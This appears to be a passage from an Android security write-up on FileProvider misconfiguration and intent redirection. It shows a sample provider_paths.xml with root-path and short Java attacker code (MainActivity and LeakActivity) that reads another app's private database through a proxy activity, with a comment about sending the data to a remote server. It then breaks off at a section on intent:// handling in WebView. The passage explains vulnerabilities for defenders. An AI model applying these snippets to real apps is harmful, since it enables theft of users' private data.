 It provides read/write access to files on a special list that can be found in the app resources, in this case at `res/xml/provider_paths.xml`

It may look somewhat like

```markup
<?xml version="1.0" encoding="utf-8"?>
<paths>
    <root-path name="root" path=""/>
    <files-path name="internal_files" path="."/>
    <cache-path name="cache" path=""/>
    <external-path name="external_files" path="images"/>
</paths>
```

Each tag specifies a root directory with a `path` value relative to the root. For instance, the value `external_files` will correspond to `new File(Environment.getExternalStorageDirectory(), "images")`

The value `root-path` corresponds to `/`, i.e. provides access to arbitrary files.

Let us say we have some secret data stored in the file `/data/data/com.victim/databases/secret.db`: the theft of this file may look something like this `MainActivity.java`

```java
Intent extra = new Intent();
extra.setFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION);
extra.setClassName(getPackageName(), "com.attacker.LeakActivity");
extra.setData(Uri.parse("content://com.victim.files_provider/root/data/data/com.victim/databases/secret.db"));

Intent intent = new Intent();
intent.setClassName("com.victim", "com.victim.ProxyActivity");
intent.putExtra("extra_intent", extra);
startActivity(intent);
```

`LeakActivity.java`

```java
InputStream i = getContentResolver().openInputStream(getIntent().getData()); // we can now do whatever we like with this stream, e.g. send it to a remote server
```

## Access to arbitrary components via WebView

An Intent object can be cast to a string with a call to `Intent.toUri(flags)` and back from a string to an Intent using `Intent.parseUri(stringUri, flags)`. This functionality is often used in WebView (the app’s built-in browser): the **app can verify an `intent://` scheme, parse the URL into an Intent and launch the activity**.

**This vulnerability can be exploited both via other vulnerabilities** (e.g. the ability to open arbitrary links in-app in WebView directly via exported activities or by way of the deeplink mechanism) in the client app and also remotely, including cross-site scripting on the server side or MitM on the client side

Example of vulnerable code
